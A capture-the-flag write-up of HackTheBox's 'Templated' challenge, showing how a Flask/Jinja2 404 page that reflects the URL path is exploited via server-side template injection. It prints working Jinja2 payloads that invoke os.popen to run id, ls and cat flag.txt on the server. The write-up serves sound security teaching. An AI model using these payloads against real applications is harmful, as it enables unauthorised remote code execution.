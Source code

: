 ```yaml
---
title: HackTheBox | Templated
description: Writeup of a easy-rated Web Exploitation Challenge from HackTheBox
date: 2023-06-27 12:00:00 -500
categories: [Challenges, HTB]
tags: [Web Exploitation, SSTI, RCE, Werkzeug, Flask, Jinja2]
pin: true
math: true
mermaid: true
image:
  path: /assets/img/htb-templated/HTB.jpg
---
```


***

<center><strong><font color="DarkGray"><a href="https://app.hackthebox.com/challenges/templated" target="_blank"><er>Templated</er></a> is a Web Exploitation challenge from HackTheBox that revolves around exploiting a Server-Side Template Injection vulnerability in order to achieve remote code execution on the server and eventually get the flag</font></strong></center>

***

## **<strong><font color="Brown">Challenge Name</font></strong>**
<img src="https://raw.githubusercontent.com/YounesTasra-R4z3rSw0rd/YounesTasra-R4z3rSw0rd.github.io/main/assets/img/htb-templated/2023-06-28 01_12_53-Hack The Box __ Hack The Box — Mozilla Firefox.png" alt="">
<center><i>Templated Challenge</i></center>
<br/>

## **<strong><font color="Brown">Challenge Description</font></strong>**
***
* Can you exploit this simple mistake?

## **<strong><font color="Brown">Write-Up</font></strong>**
***
### **<strong><font color="DarkCyan">Enumeration:</font></strong>** 
#### **<strong><font color="MediumPurple">Front page:</font></strong>**
Navigating to the provided docker instance (``144.126.206.23:32088``), you will be presented with the following web page:
<br/>
<img src="https://raw.githubusercontent.com/YounesTasra-R4z3rSw0rd/YounesTasra-R4z3rSw0rd.github.io/main/assets/img/htb-templated/2023-06-27 22_28_04-HACKING_MACHINE - VMware Workstation 17 Player (Non-commercial use only).png" alt="">
<center><i>Front page</i></center>

* The website's front page is pretty empty as it primarily consists of text without any interactive elements such as buttons, logos, or clickable features.
* However, the front page reveals the framework and templating engine being used in the backend of this application, which is `Flask/Jinja2`

#### **<strong><font color="MediumPurple">Source code:</font></strong>**
The source code of the page doesn't contain any hidden secrets, such as developer's comments or hidden directories.
<br/>
<img src="https://raw.githubusercontent.com/YounesTasra-R4z3rSw0rd/YounesTasra-R4z3rSw0rd.github.io/main/assets/img/htb-templated/2023-06-27 22_32_43-HACKING_MACHINE - VMware Workstation 17 Player (Non-commercial use only).png" alt="">
<center><i>Source code</i></center>

#### **<strong><font color="MediumPurple">Server's response:</font></strong>**
Taking a look at the server's response, the `Server` HTTP header discloses the use of `Werkzeug/1.0.1` and  `Python/3.9.0` is used in conjunction with `Flask` as the backend infrastructure.
<br/>
<img src="https://raw.githubusercontent.com/YounesTasra-R4z3rSw0rd/YounesTasra-R4z3rSw0rd.github.io/main/assets/img/htb-templated/2023-06-27 22_50_04-HACKING_MACHINE - VMware Workstation 17 Player (Non-commercial use only).png" alt="">
<center><i>Server Header</i></center>

#### **<strong><font color="MediumPurple">Werkzeug's console:</font></strong>**
``Werkzeug`` is a comprehensive WSGI (``Web Server Gateway Interface``) utility library for Python. It serves as a foundation for developing web applications, and is often used in conjunction with the web frameworks like `Flask` to handle the level-level aspects of web development. <br/>
``Werkzeug`` provides a development server called `Werkzeug's Debugger` that includes an interactive console known as the `interactive debugger console`. This console allows developers to execute Python code and inspect variables during the debugging process. <br/>
Long story short, if debug mode is enabled, we can access the `/console` endpoint and easily gain `RCE - Remote Code Execution` on the server running the vulnerable web application.

#### **<strong><font color="MediumPurple">Detecting the vulnerability:</font></strong>**
Unfortunately, the debug mode is disabled on the server. However, navigating to `/console` does not return a `404 - NOT FOUND` status-code, rather it returns a `200 FOUND`, which means `404` pages are probably being templated.
<br/>
<img src="https://raw.githubusercontent.com/YounesTasra-R4z3rSw0rd/YounesTasra-R4z3rSw0rd.github.io/main/assets/img/htb-templated/2023-06-27 23_12_10-HACKING_MACHINE - VMware Workstation 17 Player (Non-commercial use only).png" alt="">
<center><i>Templated 404 pages</i></center>

* As you can see, the web application is reflecting the name of the directory or file we want to access, such as in this example `console`.
* This might lead to an `SSTI - Server-Side Template Injection` vulnerabilities, if user input passed via the `URL` is not properly sanitized.

### **<strong><font color="DarkCyan">Exploitation:</font></strong>** 
#### **<strong><font color="MediumPurple">Remote Code Execution:</font></strong>**
Since we know that the server is using Flask, which is a Python library, and we can leverage the `MRO - Method Resolution Order` to traverse upwards in the `request` library within **Flask**. This allows us to import the `os` library. <br/>
Once we have access to the `os` library, we can execute OS commands on the server hosting the web application.<br/>

```python
{% raw %}{{request.application.__globals__.__builtins__.__import__('os').popen('id').read()}}{% endraw %}
```

<br/>
<img src="https://raw.githubusercontent.com/YounesTasra-R4z3rSw0rd/YounesTasra-R4z3rSw0rd.github.io/main/assets/img/htb-templated/2023-06-27 23_31_12-HACKING_MACHINE - VMware Workstation 17 Player (Non-commercial use only).png" alt="">
<center><i>id command</i></center>
<br/>
Since we already know the templating engine in use, which is `Jinja2`, we can leverage Jinja2-specific expressions like the following:

```python
{% raw %}{{ self.__init__.__globals__.__builtins__.__import__('os').popen('id').read()}}{% endraw %}
```
<br/>
<img src="https://raw.githubusercontent.com/YounesTasra-R4z3rSw0rd/YounesTasra-R4z3rSw0rd.github.io/main/assets/img/htb-templated/2023-06-28 00_31_10-HACKING_MACHINE - VMware Workstation 17 Player (Non-commercial use only).png" alt="">
<center><i>id command</i></center>

* As you can see, this jinja2-specific expression uses the `os` module to execute the `id` command.

#### **<strong><font color="MediumPurple">Flag:</font></strong>**
Now that we have remote code execution on the server, we can execute the `ls` command to list the files and directories located in the current directory:

```python
{% raw %}{{ self.__init__.__globals__.__builtins__.__import__('os').popen('ls').read()}}{% endraw %}
```

<br/>
<img src="https://raw.githubusercontent.com/YounesTasra-R4z3rSw0rd/YounesTasra-R4z3rSw0rd.github.io/main/assets/img/htb-templated/2023-06-28 00_38_39-HACKING_MACHINE - VMware Workstation 17 Player (Non-commercial use only).png" alt="">
<center><i>ls command</i></center>

* As you can see, there is text file named `flag.txt`

Let's read the content of `flag.txt` file, by injecting the following payload:

```python
{% raw %}{{ self.__init__.__globals__.__builtins__.__import__('os').popen('cat flag.txt').read()}}{% endraw %}
```

<br/>
<img src="https://raw.githubusercontent.com/YounesTasra-R4z3rSw0rd/YounesTasra-R4z3rSw0rd.github.io/main/assets/img/htb-templated/2023-06-28 00_40_33-HACKING_MACHINE - VMware Workstation 17 Player (Non-commercial use only).png" alt="">
<center><i>Flag</i></center>
